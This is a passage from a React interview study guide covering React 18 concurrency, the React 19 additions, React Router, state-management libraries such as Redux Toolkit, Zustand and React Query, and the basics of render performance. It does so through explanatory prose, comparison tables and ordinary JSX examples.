React 18 can **interrupt, pause, and resume** rendering. It prioritizes urgent updates (typing, clicking) over less critical renders (filtering a big list).

```
Old:      [Heavy render running] → User clicks → User waits (blocked)
React 18: [Heavy render running] → User clicks → Click handled immediately → Render resumes
```

Concurrent features are **opt-in per update** — you activate them with `useTransition`, `useDeferredValue`, or Suspense. They require `createRoot`.

### 26.3 React 17 vs React 18

| Feature | React 17 | React 18 |
|---|---|---|
| Concurrent Rendering | ❌ | ✅ |
| Automatic Batching | Partial (only React event handlers) | ✅ Full (promises, timeouts, native events) |
| `useTransition` | ❌ | ✅ |
| `useDeferredValue` | ❌ | ✅ |
| `useId` | ❌ | ✅ |
| `createRoot` API | ❌ (`ReactDOM.render`) | ✅ |
| Streaming SSR with Suspense | ❌ | ✅ |
| Strict Mode double-invokes effects (dev) | ❌ | ✅ |

```jsx
// React 18: createRoot (enables concurrent features)
import { createRoot } from 'react-dom/client';
const root = createRoot(document.getElementById('root'));
root.render(<App />);
```

### 26.4 Automatic Batching

**Batching** = grouping multiple state updates into a **single re-render**. React 18 automatically batches **all** updates (even in `setTimeout`, promises, fetch callbacks, native event handlers).

```jsx
// React 17: 2 re-renders
// React 18: 1 re-render (batched)
setTimeout(() => {
  setCount(c => c + 1);
  setName('John');
}, 1000);

setTimeout(() => {
  setCount(c => c + 1);
  setFlag(f => !f);
  // Before React 18: 2 renders. React 18: 1 render ✅
}, 1000);
```

> To opt out (rarely needed): `import { flushSync } from 'react-dom'; flushSync(() => setCount(1));`

### 26.5 useTransition: Mark Low-Priority Updates

Mark state updates as **non-urgent (transitions)** so they don't block UI interactions. Urgent updates (typing) interrupt transitions.

```jsx
const [isPending, startTransition] = useTransition();

function handleSearch(query) {
  // Urgent: update the input immediately
  setInputValue(query);

  // Non-urgent: filtering a large list can wait / be interrupted
  startTransition(() => {
    setFilteredResults(heavyFilter(data, query));
  });
}

// Show spinner while transition is pending
{isPending && <Spinner />}
```

> 💡 Use when you want the input to feel instant, but a slower result can lag slightly. Also used for tab switches and navigation (Next.js router transitions use it).

### 26.6 useDeferredValue: Defer a Non-Critical Value

```jsx
const [query, setQuery] = useState('');
const deferredQuery = useDeferredValue(query);

// query updates immediately (input is responsive)
// deferredQuery updates with a slight delay (search results can lag)

const results = useMemo(
  () => search(data, deferredQuery),
  [deferredQuery]
);

const isStale = query !== deferredQuery; // e.g. dim the results while updating
```

| | `useTransition` | `useDeferredValue` |
|---|---|---|
| Wraps | A **state setter** call | A **value** |
| Use when | You own the state update | You receive the value as a prop / don't control the setter |
| Gives | `isPending` flag | Deferred copy of the value |

> Neither is a debounce — there's no fixed delay. React renders the deferred work as soon as the urgent work is done, and abandons it if a newer update arrives.

### 26.7 Why Does useEffect Run Twice in Development?

React 18 + `<StrictMode>` **intentionally mounts → unmounts → remounts** components in development to help detect effects that don't clean up properly (and to prepare for features that reuse state, like Offscreen/Activity). This only happens in **dev, not production**.

**Fix:** don't disable Strict Mode — write effects with proper cleanup (abort fetches, clear timers, unsubscribe) so running them twice is harmless.

### 26.8 Stale Closures in useEffect

```jsx
// ❌ Bug — count is always 0 inside the effect (stale closure)
useEffect(() => {
  const id = setInterval(() => {
    console.log(count); // Always 0!
    setCount(count + 1); // Sets 0 + 1 = 1 forever
  }, 1000);
  return () => clearInterval(id);
}, []); // Empty dep array = count captured at mount time

// ✅ Fix — use functional updater
useEffect(() => {
  const id = setInterval(() => {
    setCount(prev => prev + 1); // Uses latest state
  }, 1000);
  return () => clearInterval(id);
}, []);
```

**Why:** each render has its own `count` constant; the interval callback closed over the **first** render's `count` ([closures](#35-closures)). Other fixes: add `count` to deps (re-creates the interval), or store the latest value in a `useRef`. React 19.2 adds `useEffectEvent` for this case ([26.13](#2613-react-19-whats-new--added)).

### 26.9 Objects and Arrays in the Dependency Array

```jsx
// ❌ Problem — new object created every render
const options = { color: 'red' }; // New reference each time!
useEffect(() => { /* runs every render */ }, [options]);

// ✅ Fix — memoize the object
const options = useMemo(() => ({ color: 'red' }), []);
useEffect(() => { /* runs once */ }, [options]);

// ✅ Or depend on primitives / move the object inside the effect
useEffect(() => { const opts = { color }; /* ... */ }, [color]);
```

Dependencies are compared with `Object.is` (reference equality for objects).

### 26.10 Key Trick for Resetting State

Changing the `key` prop **unmounts and remounts** the component, resetting all internal state.

```jsx
function Parent() {
  const [userId, setUserId] = useState(1);

  return (
    // Profile fully resets when userId changes
    <Profile key={userId} userId={userId} />
  );
}
```

Much cleaner than a `useEffect` that manually resets each piece of state when `userId` changes.

### 26.11 Component Patterns: HOC, Render Props, Compound Components

**Higher-Order Components (HOC)** — a **function that takes a component and returns a new enhanced component**. A pattern for reusing component logic (`connect()` from react-redux, `withRouter`).

```jsx
function withLogger(WrappedComponent) {
  return function EnhancedComponent(props) {
    console.log('Rendering', WrappedComponent.name);
    return <WrappedComponent {...props} />;
  };
}

const LoggedButton = withLogger(Button);
```

**Render Props** — a component takes a **function as a prop** and calls it to decide what to render.

```jsx
function MouseTracker({ render }) {
  const [pos, setPos] = useState({ x: 0, y: 0 });
  return (
    <div onMouseMove={e => setPos({ x: e.clientX, y: e.clientY })}>
      {render(pos)}
    </div>
  );
}

// Usage
<MouseTracker render={({ x, y }) => <p>{x}, {y}</p>} />
```

**Compound Components** — components that work together, sharing **implicit state** (like `<select>` and `<option>`). Used for Tabs, Accordion, Menu, Select.

```jsx
// Classic version with cloneElement
function Tabs({ children }) {
  const [activeTab, setActiveTab] = useState(0);
  return React.Children.map(children, (child, index) =>
    React.cloneElement(child, { isActive: index === activeTab, onSelect: () => setActiveTab(index) })
  );
}

// Modern version with Context (more flexible — works with any nesting)
const TabsContext = createContext(null);
function TabsRoot({ children }) {
  const [active, setActive] = useState(0);
  return <TabsContext.Provider value={{ active, setActive }}>{children}</TabsContext.Provider>;
}
function Tab({ index, children }) {
  const { active, setActive } = useContext(TabsContext);
  return <button aria-selected={active === index} onClick={() => setActive(index)}>{children}</button>;
}
// <TabsRoot><Tab index={0}>One</Tab><Tab index={1}>Two</Tab></TabsRoot>
```

| Pattern | Reuses | Downsides | Modern replacement |
|---|---|---|---|
| HOC | Logic via wrapping | Wrapper hell, prop name collisions, unclear prop origin | Custom hooks |
| Render props | Logic via function child | Callback nesting | Custom hooks |
| Compound components | Shared implicit state | More setup | Still recommended for UI kits |
| Custom hooks | Stateful logic | — | ✅ Preferred |

### 26.12 Suspense: Async UI Placeholder

**What it is:** Displays a fallback UI while a child is "not ready yet" — a lazy-loaded component, or (with supporting libraries/frameworks) data being fetched.

```jsx
<Suspense fallback={<Spinner />}>
  <UserProfile />   {/* Might fetch data or be lazy loaded */}
</Suspense>
```

> In React 18, Suspense works with `React.lazy`, Suspense-enabled data libraries (React Query, Relay, SWR), streaming SSR, and the Next.js App Router ([34.6](#346-streaming-with-suspense)). Code splitting with `lazy` is in [29.11](#2911-lazy-loading-and-code-splitting). In React 19, the `use()` API lets any component suspend on a promise directly ([26.13](#2613-react-19-whats-new--added)).

### 26.13 React 19: What's New ➕ Added

**What it is:** React 19 became stable in December 2024. Minor releases followed: 19.1 and then 19.2 in October 2025. The main theme is **Actions**, which give built-in support for async data mutations such as form submits. React 19 also makes Server Components stable, adds new hooks, and removes long-deprecated APIs.

**Why it matters:** "What changed in React 19?" is now a common interview question. The new hooks replace a lot of hand-written `isLoading`/`error` state code.

#### Summary Table

| Feature | What it does | Replaces / improves |
|---|---|---|
| **Actions** | Async functions used inside transitions or as `<form action>`. React tracks pending state, errors and optimistic updates for you | Manual `isLoading` / `try/catch` / `setError` state |
| `useActionState` | Returns `[state, formAction, isPending]` for an Action | `useFormState` (old canary name) + manual state |
| `useFormStatus` (react-dom) | A child reads the parent `<form>`'s pending status | Prop drilling `isSubmitting` |
| `useOptimistic` | Shows a temporary optimistic value while an Action runs. It auto-reverts if the Action fails | Manual optimistic state + rollback |
| `use(promise)` / `use(context)` | Reads a promise (suspends until it resolves) or a context. It **can** be called inside `if` and loops | `useEffect` fetching; `useContext` |
| `ref` as a prop | Function components receive `ref` like a normal prop | `forwardRef` (to be deprecated) |
| Ref cleanup | A ref callback can return a cleanup function | Calling the ref callback with `null` |
| `<Context>` as provider | `<ThemeContext value="dark">` | `<ThemeContext.Provider>` |
| Document metadata | `<title>`, `<meta>`, `<link>` rendered anywhere are hoisted to `<head>` | `react-helmet` |
| Stylesheets and scripts | `<link rel="stylesheet" precedence="...">` handles ordering and Suspense. Async scripts are deduplicated | Manual loading order |
| Resource preloading | `preload`, `preinit`, `preconnect`, `prefetchDNS` from `react-dom` | Hand-written `<link rel="preload">` |
| Server Components and Server Actions | Stable in React 19 (`'use server'`) | Framework-only experiments |
| Better errors | Hydration mismatches show one diff. New root options: `onCaughtError`, `onUncaughtError`, `onRecoverableError` | Repeated, confusing console errors |
| `useDeferredValue(value, initialValue)` | Optional initial value for the first render | — |
| **19.2:** `<Activity mode="hidden">` | Hides UI but keeps its state, and can pre-render it in the background | Unmounting (state lost) or CSS hiding (effects keep running) |
| **19.2:** `useEffectEvent` | Gives an effect a "non-reactive" function that always sees the latest props and state, and doesn't need to be a dependency | `useRef` workaround for [stale closures](#268-stale-closures-in-useeffect) |
| **React Compiler** (separate tool, v1.0 in Oct 2025) | Memoizes components and values automatically at build time | Most manual `useMemo` / `useCallback` / `React.memo` |

#### Actions and useActionState

```jsx
import { useActionState } from 'react';

async function updateName(prevState, formData) {
  const name = formData.get('name');
  const error = await saveName(name);      // API call
  if (error) return { error };              // becomes the new state
  return { error: null, saved: name };
}

function NameForm() {
  const [state, formAction, isPending] = useActionState(updateName, { error: null });

  return (
    <form action={formAction}>              {/* form resets automatically on success */}
      <input name="name" />
      <button disabled={isPending}>{isPending ? 'Saving...' : 'Save'}</button>
      {state.error && <p className="error">{state.error}</p>}
    </form>
  );
}
```

`useTransition` also accepts async functions now: `startTransition(async () => { await save(); })`. `isPending` stays `true` until the async work finishes. For `useFormStatus` see [34.9](#349-server-actions--added).

#### useOptimistic

```jsx
import { useOptimistic } from 'react';

function Likes({ likes, likeAction }) {
  const [optimisticLikes, addOptimistic] = useOptimistic(
    likes,
    (current, delta) => current + delta     // how to apply the optimistic update
  );

  async function handleLike() {
    addOptimistic(1);                       // UI shows +1 immediately
    await likeAction();                     // if this throws, the UI goes back to `likes`
  }

  return <form action={handleLike}><button>❤️ {optimisticLikes}</button></form>;
}
```

#### The `use` API

```jsx
import { use, Suspense } from 'react';

function Comments({ commentsPromise }) {
  const comments = use(commentsPromise);    // suspends until resolved
  return comments.map(c => <p key={c.id}>{c.text}</p>);
}

function Theme({ show }) {
  if (!show) return null;
  const theme = use(ThemeContext);          // ✅ allowed after an early return / inside if
  return <div className={theme} />;
}

<Suspense fallback={<Spinner />}>
  <Comments commentsPromise={fetchComments()} />
</Suspense>
```

**Trap:** don't create the promise inside the same Client Component that calls `use()`. A new promise on every render means it suspends forever. Create it in a Server Component, a parent, a loader or a cache, and pass it down.

#### ref as a Prop and Ref Cleanup

```jsx
// React 19 — no forwardRef needed
function MyInput({ placeholder, ref }) {
  return <input placeholder={placeholder} ref={ref} />;
}

// Ref callback with cleanup
<div ref={(node) => {
  const observer = new ResizeObserver(() => {});
  observer.observe(node);
  return () => observer.disconnect();       // runs when the element is removed
}} />
```

Compare with the React 18 version in [25.12](#2512-useimperativehandle--forwardref).

#### Context as Provider and Document Metadata

```jsx
const ThemeContext = createContext('light');

function App({ children }) {
  return <ThemeContext value="dark">{children}</ThemeContext>;   // no .Provider
}

function BlogPost({ post }) {
  return (
    <article>
      <title>{post.title}</title>             {/* hoisted into <head> */}
      <meta name="description" content={post.summary} />
      <h1>{post.title}</h1>
    </article>
  );
}
```

> In Next.js, keep using the `metadata` export / `generateMetadata`. The native tags are mostly useful in plain React apps.

#### Breaking Changes and Removals

| Removed / changed | Use instead |
|---|---|
| `propTypes`, and `defaultProps` on function components | TypeScript, default parameters |
| String refs (`ref="input"`) | `useRef` / callback refs |
| Legacy context (`contextTypes`, `getChildContext`) | `createContext` |
| `ReactDOM.render`, `ReactDOM.hydrate` | `createRoot`, `hydrateRoot` (from `react-dom/client`) |
| `unmountComponentAtNode`, `findDOMNode` | `root.unmount()`, refs |
| `react-test-renderer/shallow`, `act` from `react-dom/test-utils` | React Testing Library, `act` from `react` |
| Errors in render re-thrown to `window` | Reported via `console.error` / the new root error options |
| UMD builds | ESM CDNs (e.g. esm.sh) |
| Old JSX transform | The new JSX transform is required |
| TypeScript: `useRef()` with no argument | `useRef(null)`; `ReactElement` props default to `unknown` |

#### Interview Points

- **"React 19 in one line"?** Actions plus their hooks (`useActionState`, `useFormStatus`, `useOptimistic`), `use()`, stable Server Components, `ref` as a prop, and metadata in components.
- **Does the React Compiler mean I never write `useMemo`?** Mostly yes for new code, but it is an opt-in build plugin. It still needs code that follows the Rules of React (pure render, no mutation of props or state). Knowing manual memoization still matters for interviews and older code.
- **`use` vs `useContext`?** Both read context, but `use` can be called conditionally and can also read promises.
- **Upgrade path:** upgrade to React 18.3 first. It adds warnings for every API removed in 19. Then run the official codemods.

---

## 27. React Routing

### 27.1 React Router Basics

React Router enables **client-side navigation** — switching views without a full page reload (it uses the History API).

```jsx
import { BrowserRouter, Routes, Route } from 'react-router-dom';

function App() {
  return (
    <BrowserRouter>
      <Routes>
        <Route path="/" element={<Home />} />
        <Route path="/about" element={<About />} />
        <Route path="*" element={<NotFound />} /> {/* 404 */}
      </Routes>
    </BrowserRouter>
  );
}
```

### 27.2 BrowserRouter vs HashRouter

| | BrowserRouter | HashRouter |
|---|---|---|
| URL style | `/about` | `/#/about` |
| Requires server config | Yes (server must return `index.html` for all routes) | No |
| SEO friendly | Yes | No |
| Use case | Production apps | Static hosting / legacy |

### 27.3 Navigation Components

```jsx
import { Link, NavLink } from 'react-router-dom';

// Link — basic navigation (no full reload, unlike <a>)
<Link to="/home">Home</Link>

// NavLink — adds active class when route matches
<NavLink to="/home" className={({ isActive }) => isActive ? 'active' : ''}>
  Home
</NavLink>
```

### 27.4 Programmatic Navigation

```jsx
import { useNavigate } from 'react-router-dom';

function LoginPage() {
  const navigate = useNavigate();

  const handleLogin = () => {
    // after login...
    navigate('/dashboard');        // go to route
    navigate(-1);                  // go back
    navigate('/login', { replace: true }); // replace history entry
    navigate('/page', { state: { from: '/home' } }); // pass state
  };
}
```

### 27.5 Dynamic Routes and useParams

```jsx
// Route definition
<Route path="/users/:id" element={<UserDetail />} />

// In component
import { useParams } from 'react-router-dom';
function UserDetail() {
  const { id } = useParams(); // id from URL e.g. /users/42 (always a string)
  // fetch user data with id...
}
```

### 27.6 Nested Routes

```jsx
// Parent route uses <Outlet /> to render child routes
<Routes>
  <Route path="/dashboard" element={<Dashboard />}>
    <Route path="profile" element={<Profile />} />
    <Route path="settings" element={<Settings />} />
  </Route>
</Routes>

// Dashboard.jsx
import { Outlet } from 'react-router-dom';
function Dashboard() {
  return (
    <div>
      <Sidebar />
      <Outlet /> {/* Child route renders here */}
    </div>
  );
}
```

### 27.7 Protected Routes (Auth Guard)

```jsx
import { Navigate } from 'react-router-dom';

function ProtectedRoute({ children }) {
  const isAuthenticated = !!localStorage.getItem('token');
  return isAuthenticated ? children : <Navigate to="/login" replace />;
}

// Usage
<Route path="/dashboard" element={
  <ProtectedRoute>
    <Dashboard />
  </ProtectedRoute>
} />
```

> Client-side guards are for **UX only** — the API must still verify the user on every request. (Next.js equivalent: [Middleware](#347-middleware).)

### 27.8 Query Parameters

```jsx
import { useSearchParams } from 'react-router-dom';

function SearchPage() {
  const [searchParams, setSearchParams] = useSearchParams();
  const query = searchParams.get('q'); // /search?q=react → 'react'

  return (
    <input
      value={query || ''}
      onChange={e => setSearchParams({ q: e.target.value })}
    />
  );
}
```

### 27.9 useLocation

```jsx
import { useLocation } from 'react-router-dom';

function Page() {
  const location = useLocation();
  // location.pathname → '/dashboard'
  // location.search → '?tab=overview'
  // location.state → passed via navigate('/page', { state: { from: '/home' } })
}
```

### 27.10 Lazy Loading Routes (Code Splitting)

```jsx
import { lazy, Suspense } from 'react';

const Dashboard = lazy(() => import('./pages/Dashboard'));
const Profile = lazy(() => import('./pages/Profile'));

function App() {
  return (
    <Suspense fallback={<div>Loading...</div>}>
      <Routes>
        <Route path="/dashboard" element={<Dashboard />} />
        <Route path="/profile" element={<Profile />} />
      </Routes>
    </Suspense>
  );
}
```

Route-based splitting is the most common and highest-impact form of code splitting ([29.11](#2911-lazy-loading-and-code-splitting)).

---

## 28. State Management

### 28.1 Choosing the Right Tool

| Scenario | Best Tool |
|---|---|
| Local UI state | `useState` / `useReducer` |
| Shared state across a few components | Lift state up / Context API |
| Complex global state | Redux Toolkit |
| Lightweight global state | Zustand |
| Server/async data (caching, refetching) | React Query (TanStack Query) / SWR |
| URL state (filters, pagination, tabs) | Router search params |
| Form state | React Hook Form / controlled inputs |

> **Key idea:** Separate **server state** (data owned by the backend: users, posts — needs caching, deduplication, background refresh) from **client state** (UI-only: modal open, theme, selected tab). Most "global state" is actually server state, which React Query handles better than Redux.



### 28.2 Prop Drilling and How to Avoid It

**Prop drilling:** Passing props through many layers just to reach a deeply nested component.

```jsx
// ❌ Prop drilling
<App user={user}>
  <Layout user={user}>
    <Sidebar user={user}>
      <UserAvatar user={user} /> {/* Only this needs it! */}
    </Sidebar>
  </Layout>
</App>

// ✅ Context API — provide at top, consume anywhere
const UserContext = createContext();

// Wrap top-level
<UserContext.Provider value={user}>
  <App />
</UserContext.Provider>

// Consume directly where needed
function UserAvatar() {
  const user = useContext(UserContext);
  return ;
}
```

**Solutions:**
- **Component composition** — pass the already-built component down as `children`, so intermediate layers don't need the data:
  ```jsx
  <Layout sidebar={<Sidebar><UserAvatar user={user} /></Sidebar>} />
  ```
- **Context API** — built-in, good for low-frequency global values (theme, auth, locale).
- **Redux / Zustand** — external stores for complex or frequently changing global state.

> For complex global state (cart, auth, theme), prefer **Zustand** or **Redux Toolkit** over Context (Context can cause unnecessary re-renders when not memoized properly).

### 28.3 Context API (Full Pattern)

```jsx
// 1. Create Context + Provider
const CartContext = React.createContext(null);

export function CartProvider({ children }) {
  const [cart, setCart] = useState([]);

  const addItem = (item) => setCart(prev => [...prev, item]);
  const removeItem = (id) => setCart(prev => prev.filter(i => i.id !== id));

  return (
    <CartContext.Provider value={{ cart, addItem, removeItem }}>
      {children}
    </CartContext.Provider>
  );
}

// 2. Custom hook for cleaner usage
export function useCart() {
  const context = useContext(CartContext);
  if (!context) throw new Error('useCart must be used within CartProvider');
  return context;
}

// 3. Use in component
function ProductCard({ product }) {
  const { addItem } = useCart();
  return <button onClick={() => addItem(product)}>Add to Cart</button>;
}
```

### 28.4 Context Performance

Every consumer re-renders when the Provider's `value` changes **by reference**. Two common problems:

1. **One big context** — a change to any field re-renders every consumer.
2. **New object every render** — `value={{ cart, addItem }}` creates a new object each time the provider re-renders.

```jsx
// ❌ Bad — everything re-renders on theme or user change
const AppContext = createContext({ theme, user, cart });

// ✅ Good — split into separate contexts
const ThemeContext = createContext(theme);
const UserContext = createContext(user);
const CartContext = createContext(cart);

// ✅ Memoize the value object (and the functions inside it)
const addItem = useCallback(item => setCart(prev => [...prev, item]), []);
const value = useMemo(() => ({ cart, addItem }), [cart, addItem]);
<CartContext.Provider value={value}>{children}</CartContext.Provider>
```

Other techniques: split **state** and **dispatch/actions** into two contexts (actions never change), or use a store with selectors (Zustand/Redux) for frequently changing data.

### 28.5 Redux Toolkit (Modern Redux)

Redux = a single global store, state changed only by dispatching **actions** handled by pure **reducers**. Redux Toolkit (RTK) removes the boilerplate and uses **Immer**, so you can write "mutating" code that is actually immutable.



```jsx
// store/counterSlice.js
import { createSlice, createAsyncThunk } from '@reduxjs/toolkit';

// Async action
export const fetchUsers = createAsyncThunk('users/fetch', async () => {
  const res = await fetch('/api/users');
  return res.json();
});

const counterSlice = createSlice({
  name: 'counter',
  initialState: { value: 0, users: [], loading: false },
  reducers: {
    increment: state => { state.value += 1; }, // Immer makes this safe
    decrement: state => { state.value -= 1; },
  },
  extraReducers: builder => {
    builder
      .addCase(fetchUsers.pending, state => { state.loading = true; })
      .addCase(fetchUsers.fulfilled, (state, action) => {
        state.loading = false;
        state.users = action.payload;
      });
  },
});

export const { increment, decrement } = counterSlice.actions;
export default counterSlice.reducer;

// store/store.js
import { configureStore } from '@reduxjs/toolkit';
import counterReducer from './counterSlice';

export const store = configureStore({
  reducer: { counter: counterReducer },
});

// In component (app wrapped in <Provider store={store}>)
import { useSelector, useDispatch } from 'react-redux';
const count = useSelector(state => state.counter.value);
const dispatch = useDispatch();
<button onClick={() => dispatch(increment())}>+</button>
```

> RTK also includes **RTK Query** for server-state caching (an alternative to React Query).

### 28.6 Redux Persist (Persisting State)

```jsx
import { persistStore, persistReducer } from 'redux-persist';
import storage from 'redux-persist/lib/storage'; // localStorage
import { PersistGate } from 'redux-persist/integration/react';

const persistConfig = { key: 'root', storage };
const persistedReducer = persistReducer(persistConfig, rootReducer);

export const store = configureStore({ reducer: persistedReducer });
export const persistor = persistStore(store);

// Wrap app
<PersistGate loading={null} persistor={persistor}>
  <App />
</PersistGate>
```

> Use `whitelist`/`blacklist` in `persistConfig` to persist only what's needed (e.g. cart, not loading flags). Never persist secrets.

### 28.7 Zustand (Lightweight Alternative)

```jsx
import { create } from 'zustand';

const useStore = create((set) => ({
  count: 0,
  increment: () => set(state => ({ count: state.count + 1 })),
  reset: () => set({ count: 0 }),
}));

// In component — no Provider needed!
function Counter() {
  const { count, increment } = useStore();
  return <button onClick={increment}>{count}</button>;
}

// ✅ Better for performance: select only what you need
const count = useStore(state => state.count); // re-renders only when count changes
```

> Zustand also has a `persist` middleware (e.g. for a cart persisted to localStorage).

### 28.8 React Query (Server State)

React Query (TanStack Query) manages **server state**: fetching, caching, deduplication, background refetching (on window focus/reconnect), retries, pagination and mutations.

```jsx
import { useQuery, useMutation, useQueryClient } from '@tanstack/react-query';

function Users() {
  // Fetch with caching, background refresh, error handling
  const { data, isLoading, error } = useQuery({
    queryKey: ['users'],
    queryFn: () => fetch('/api/users').then(r => r.json()),
    staleTime: 5 * 60 * 1000, // Consider data fresh for 5 minutes
  });

  // Mutation, then refetch the list
  const queryClient = useQueryClient();
  const mutation = useMutation({
    mutationFn: (newUser) => fetch('/api/users', { method: 'POST', body: JSON.stringify(newUser) }),
    onSuccess: () => queryClient.invalidateQueries({ queryKey: ['users'] }),
  });

  if (isLoading) return <p>Loading...</p>;
  if (error) return <p>Error: {error.message}</p>;
  return <ul>{data.map(u => <li key={u.id}>{u.name}</li>)}</ul>;
}

// Parameterized query — the key includes the variable
function Profile({ userId }) {
  const { data, isLoading } = useQuery({
    queryKey: ['user', userId],
    queryFn: () => fetch(`/api/users/${userId}`).then(r => r.json()),
    staleTime: 5 * 60 * 1000, // Data is "fresh" for 5 minutes
  });

  if (isLoading) return <Spinner />;
  return <div>{data.name}</div>;
}
// Bonus: Automatically deduplicates, caches, and refetches on focus!
```

**Optimistic update (e.g. like button):**

```jsx
const likeMutation = useMutation({
  mutationFn: likePost,
  onMutate: async (postId) => {
    await queryClient.cancelQueries({ queryKey: ['posts'] });
    const previous = queryClient.getQueryData(['posts']);
    queryClient.setQueryData(['posts'], old =>
      old.map(p => p.id === postId ? { ...p, likes: p.likes + 1 } : p));
    return { previous };                       // context for rollback
  },
  onError: (err, postId, ctx) => queryClient.setQueryData(['posts'], ctx.previous),
  onSettled: () => queryClient.invalidateQueries({ queryKey: ['posts'] }),
});
```

| Term | Meaning |
|---|---|
| `queryKey` | Cache key — must include every variable the query depends on |
| `staleTime` | How long data counts as fresh (no refetch). Default `0` |
| `gcTime` (formerly `cacheTime`) | How long **unused** data stays in the cache. Default 5 min |
| `invalidateQueries` | Mark data stale and refetch |

> **SWR** (by Vercel) offers the same stale-while-revalidate model ([22.4](#224-stale-while-revalidate-swr-strategy)) with a smaller API: `const { data, error, isLoading } = useSWR('/api/user', fetcher)`.

### 28.9 Comparison Summary

| | Context | Redux Toolkit | Zustand | React Query |
|---|---|---|---|---|
| Type of state | Client (low-frequency) | Client (complex) | Client | **Server** |
| Boilerplate | Low | Medium | Very low | Low |
| Provider needed | Yes | Yes | No | Yes (`QueryClientProvider`) |
| Selective re-render | ❌ (all consumers) | ✅ selectors | ✅ selectors | ✅ per query |
| DevTools | React DevTools | Excellent (time travel) | Via middleware | Own DevTools |
| Best for | Theme, auth, locale | Large apps, many devs | Small–medium apps | Any app fetching data |

---

## 29. React Performance Optimization

### 29.1 When to Optimize (and When NOT to)

> Don't optimize prematurely. First, **measure** with the React DevTools Profiler (and the browser Performance tab / Lighthouse). Then optimize the actual bottlenecks.

React is fast by default. A re-render is not a problem by itself — it's only a problem when it's **slow** or causes **expensive** work.

### 29.2 React DevTools Profiler

- Open React DevTools → **Profiler** tab
- Click Record → interact with the app → Stop
- View which components re-rendered, how long they took, and **why** (enable "Record why each component rendered")
- "Highlight updates when components render" in settings visually flashes re-rendering components.

### 29.3 What Causes Re-renders?

Main triggers:
1. **State change** — `setState` is called (with a different value)
2. **Parent re-render** — by default, **all children re-render** when a parent renders, even if their props didn't change
3. **Props change** — parent passes a new value/reference
4. **Context change** — every consumer re-renders when the context value changes

```jsx
const [count, setCount] = useState(0);

// This causes ALL children to re-render (even those not using count)
// unless they are wrapped in React.memo
```

> 💡 **Interview tip:** Calling `setState` with the same value (checked with `Object.is`) skips the re-render. Also mention: re-render ≠ DOM update — React only touches the DOM if the output changed.

